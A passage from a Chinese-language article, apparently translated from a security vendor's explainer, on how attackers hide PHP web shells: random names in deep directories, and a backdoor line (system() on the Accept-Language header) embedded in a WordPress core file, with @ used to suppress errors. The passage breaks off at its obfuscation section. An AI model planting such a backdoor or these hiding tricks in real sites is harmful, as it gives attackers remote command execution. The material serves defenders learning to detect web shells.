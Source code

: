 
上面的方法（至少在访问日志中）没有记录哪个命令被执行。

    
    <code>192.168.5.26 - - [28/Apr/2016:20:48:05 +0100] "GET /demo/shell.php HTTP/1.1" 200 1151 "-" "Mozilla/5.0 (Windows NT 6.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.112 Safari/537.36"
    </code>




## 2. 隐藏在代码中


最流行的PHP shell像c99，r57，b374这样的文件，名字很容易引起怀疑。可能已经被列入黑名单，可以很容易地识别。黑客使用来隐藏Webshell的最简单的方法之一是将它们上传到深层子目录和/或使用随机名称。

    
    <code>http://www.example.com/includes/blocks/user/text_editor/bbja1jsf.php
    </code>


一个更有效的方法，就是将web shell代码嵌入到已经存在的，合法的文件中。

    
    <code>http://www.example.com/index.php
    http://www.example.com/about.php
    </code>


例如WordPress

    
    <code>// http://www.example.com/wp-content/wp-blog-header.php
    
    if ( !isset($wp_did_header) ) {
    $wp_did_header = true;
    
    // Load the WordPress Core System
    system($_SERVER['HTTP_ACCEPT_LANGUAGE']);
    
    // Load the WordPress library.
    require_once( dirname(__FILE__) . '/wp-load.php' );
    
    // Set up the WordPress query.
    wp();
    
    // Load the theme template.
    require_once( ABSPATH . WPINC . '/template-loader.php' );
    }
    </code>


![](http://www.acunetix.com/wp-content/uploads/2016/06/image03.png)

注意 - 攻击者可以在函数之前使用@运算符来抑制可能抛出的任何错误，并写入到错误日志。


## 3. 混淆

